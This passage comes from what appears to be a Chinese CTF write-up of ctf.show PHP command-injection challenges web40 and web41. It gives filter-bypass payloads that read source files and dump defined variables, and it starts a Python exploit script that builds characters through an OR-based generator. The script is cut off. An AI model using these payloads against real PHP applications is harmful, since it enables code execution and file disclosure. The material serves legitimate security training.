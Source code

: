 ![image-20230528104909430](https://cdn.jsdelivr.net/gh/rainsbluechan/blogimage@main/img/image-20230528104909430.png)

![image-20230528105008650](https://cdn.jsdelivr.net/gh/rainsbluechan/blogimage@main/img/image-20230528105008650.png)

## web40

还是过滤 。。。。。。。。

![image-20230528112917574](https://cdn.jsdelivr.net/gh/rainsbluechan/blogimage@main/img/image-20230528112917574.png)

这是不是把改ban的符号全ban了....汗，问号也不能用？有提示解法。

```
show_source(next(array_reverse(scandir(pos(localeconv())))));
通过货币信息扫这个pos，然后把目录进行翻转，然后取下一个next，再显示源码。
```

![image-20230528113446324](https://cdn.jsdelivr.net/gh/rainsbluechan/blogimage@main/img/image-20230528113446324.png)

还有一种方法，是获取当前所有的变量。

```
?变量=print_r(get_defined_vars());
```

![image-20230528114332835](https://cdn.jsdelivr.net/gh/rainsbluechan/blogimage@main/img/image-20230528114332835.png)

这里我们能看见这里有几个数组。前置加上next（）。

![image-20230528114711114](https://cdn.jsdelivr.net/gh/rainsbluechan/blogimage@main/img/image-20230528114711114.png)

```
?变量名=print_r(array_pop(next(get_defined_vars())));    #弹出
```

## web41

![image-20230528115447524](https://cdn.jsdelivr.net/gh/rainsbluechan/blogimage@main/img/image-20230528115447524.png)

![image-20230528115542544](https://cdn.jsdelivr.net/gh/rainsbluechan/blogimage@main/img/image-20230528115542544.png)

不允许数字，也不允许有字母。不能有大小写字母。关键字符也不能有。

通过一些特殊字符来构造出一个字母。这里使用到官方提示的一个脚本文件。[羽师傅博客](https://blog.csdn.net/miuzzx/article/details/108569080)

<img src="https://cdn.jsdelivr.net/gh/rainsbluechan/blogimage@main/img/image-20230531163746939.png" alt="image-20230531163746939" style="zoom:50%;" />

<img src="https://cdn.jsdelivr.net/gh/rainsbluechan/blogimage@main/img/image-20230531163852967.png" alt="image-20230531163852967" style="zoom:50%;" />

```python
# -*- coding: utf-8 -*-
import requests
import urllib
from sys import *
import os
os.system("php rce_or.php")  #没有将php写入环境变量需手动运行
if(len(argv)!=2):
   print("="*50)
   print('USER：python exp.py <url>')
   print("eg：  python exp.py http://ctf.show/")
   print("="*50)
   exit(0)
url=argv[1]
def action(arg):
   s1=""
   s2=""
```